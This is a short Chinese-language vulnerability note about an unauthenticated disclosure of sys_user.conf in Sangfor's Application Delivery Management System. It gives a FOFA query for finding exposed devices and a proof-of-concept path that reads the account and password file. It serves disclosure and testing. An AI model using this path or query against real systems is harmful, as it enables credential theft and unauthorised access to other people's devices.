 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

<a-checkbox checked>深信服 应用交付管理系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="SANGFOR-应用交付管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646105000489-5727976c-4824-4f44-9c53-729cd9410f93.png)

验证POC

```javascript
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![img](../../../.vuepress/public/img/1646105017682-f6969569-17c3-4386-aa54-792537cab576.png)